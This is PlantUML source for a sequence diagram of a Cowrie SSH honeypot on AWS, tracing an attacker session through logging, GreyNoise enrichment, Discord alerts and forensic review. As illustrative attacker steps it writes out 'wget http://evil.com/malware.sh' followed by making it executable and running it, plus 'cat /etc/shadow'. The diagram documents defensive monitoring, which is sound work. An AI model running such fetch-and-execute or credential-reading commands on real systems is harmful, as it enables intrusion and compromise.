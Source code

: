 @startuml Operational Sequence
title AWS Honeypot Operational Flow - Complete System Lifecycle

skinparam sequence {
    ArrowColor #FF9900
    ActorBorderColor #232F3E
    LifeLineBorderColor #232F3E
    ParticipantBorderColor #232F3E
    ParticipantBackgroundColor #FFFFFF
    ActorBackgroundColor #E8F4F8
}

actor "Threat Actor" as attacker
participant "Internet Gateway" as igw
participant "AWS Security Group" as sg
participant "EC2 Instance\ni-04d996c187504b547\n44.218.220.47" as ec2
participant "Cowrie Honeypot\nPort 2222" as cowrie
participant "cowrie.conf" as config
participant "Fake Filesystem" as fs
participant "JSON Logger\n/var/log/cowrie.json" as logger
participant "IP Whitelist Filter\nip_whitelist.py" as filter
participant "Event Processor" as events
participant "GreyNoise API" as greynoise
participant "Discord Integration" as discord
participant "Discord Webhook" as webhook
participant "CloudWatch Logs" as cloudwatch
participant "Team Members" as team
participant "AWS SSM" as ssm

== System Initialization ==
team -> ec2 : Deploy infrastructure
ec2 -> cowrie : Start Cowrie service
cowrie -> config : Load configuration\n- Port: 2222\n- Timeout: 600s\n- Plugins enabled
config -> fs : Initialize fake filesystem
config -> logger : Configure JSON logging
config -> discord : Load webhook config
cowrie -> ec2 : **ACTIVE**: Listening on 0.0.0.0:2222
ec2 -> team : System ready

note over cowrie
  Cowrie v2.5.0 initialized
  - SSH/Telnet emulation active
  - Event logging enabled
  - Discord integration ready
end note

== Attack Detection ==
attacker -> igw : Port scan\n(nmap, masscan, etc.)
igw -> sg : Inbound traffic
sg -> ec2 : Allow port 2222\n(Security Group Rule)
ec2 -> cowrie : Forward connection
cowrie -> logger : **LOG**: cowrie.session.connect\n{src_ip, timestamp, port}
cowrie -> attacker : SSH banner\n"SSH-2.0-OpenSSH_6.0p1"

== Authentication Phase ==
attacker -> cowrie : SSH connection\nUsername: root
attacker -> cowrie : Password: password123
cowrie -> logger : **LOG**: cowrie.login.success\n{username, password, src_ip}
cowrie -> events : Process login event
events -> filter : Check IP whitelist
filter -> events : Not whitelisted\n(Not team IP)
cowrie -> attacker : Authentication accepted\n(Fake shell prompt)

note over events, filter
  IP Filtering Logic:
  - Check against team whitelist
  - Suppress alerts for known IPs
  - Pass through unknown IPs
end note

== Session Interaction ==
attacker -> cowrie : Command: whoami
cowrie -> fs : Query fake /etc/passwd
fs -> cowrie : Return: root
cowrie -> attacker : root
cowrie -> logger : **LOG**: cowrie.command.input\n{command: "whoami"}

attacker -> cowrie : Command: ls -la /root
cowrie -> fs : List fake directory
fs -> cowrie : Fake file listing
cowrie -> attacker : Display files
cowrie -> logger : **LOG**: cowrie.command.input\n{command: "ls -la /root"}

attacker -> cowrie : Command: cat /etc/shadow
cowrie -> fs : Read fake shadow file
fs -> cowrie : Fake password hashes
cowrie -> attacker : Display fake data
cowrie -> logger : **LOG**: cowrie.command.input\n{command: "cat /etc/shadow"}

== Malicious Activity ==
attacker -> cowrie : wget http://evil.com/malware.sh
cowrie -> logger : **LOG**: cowrie.session.file_download\n{url, filename, size}
cowrie -> fs : Store in fake filesystem
cowrie -> attacker : Download complete (fake)

attacker -> cowrie : chmod +x malware.sh\n./malware.sh
cowrie -> logger : **LOG**: cowrie.command.input\n{command: "chmod +x malware.sh"}
cowrie -> logger : **LOG**: cowrie.command.input\n{command: "./malware.sh"}
cowrie -> attacker : Simulated execution output

== Threat Intelligence Processing ==
events -> greynoise : Query IP reputation\n{src_ip}
greynoise -> events : Threat classification\n{malicious: true, tags: [...]}
events -> discord : Enrich event metadata\n{greynoise_data}

note over greynoise
  GreyNoise Threat Scoring:
  - Known scanner detection
  - Threat actor classification
  - Geographic analysis
  - Historical activity
end note

== Real-time Alerting ==
events -> discord : Format alert message
discord -> webhook : POST webhook payload\n{event_type, src_ip, commands, threat_score}
webhook -> team : **ALERT**: New attack session\nIP: XXX.XXX.XXX.XXX\nCommands executed

note over webhook, team
  Discord Alert Contains:
  - Source IP and location
  - Username/password attempted
  - Commands executed
  - Threat intelligence score
  - Session timestamp
end note

== Monitoring and Analysis ==
logger -> cloudwatch : Stream JSON logs
cloudwatch -> team : CloudWatch Logs aggregation
team -> ssm : AWS Systems Manager\nSession Manager
ssm -> ec2 : Browser-based shell
team -> ec2 : SSH access (port 22)\nssh -i key.pem ec2-user@44.218.220.47

team -> ec2 : tail -f /opt/cowrie/var/log/cowrie/cowrie.json
ec2 -> team : **STREAMING**: Live attack logs

note over team
  Team Access Methods:
  1. AWS SSM (no SSH keys)
  2. SSH with keypair
  3. EC2 Instance Connect
end note

== Session Termination ==
attacker -> cowrie : exit
cowrie -> logger : **LOG**: cowrie.session.closed\n{duration, commands_count}
cowrie -> events : Process session closed
events -> discord : Session summary
discord -> webhook : Final session report
webhook -> team : **ALERT**: Session ended\nDuration: XX minutes\nCommands: XX

== Post-Attack Forensics ==
team -> ec2 : Analyze session logs
team -> ec2 : grep "command.input" cowrie.json
ec2 -> team : Complete command history

team -> ec2 : Extract downloaded files
ec2 -> team : Malware samples for analysis

team -> ec2 : Review session recordings
ec2 -> team : Complete TTY replay data

note over team
  Forensic Data Available:
  - Complete session timeline
  - All commands executed
  - Files accessed/downloaded
  - Malware samples captured
  - Network connections attempted
  - Authentication credentials used
end note

== Continuous Operation ==
cowrie -> ec2 : Continue monitoring
ec2 -> team : 24/7 threat intelligence gathering
team -> team : Rotate monitoring duties
team -> team : Document attack patterns
team -> team : Update threat database

@enduml

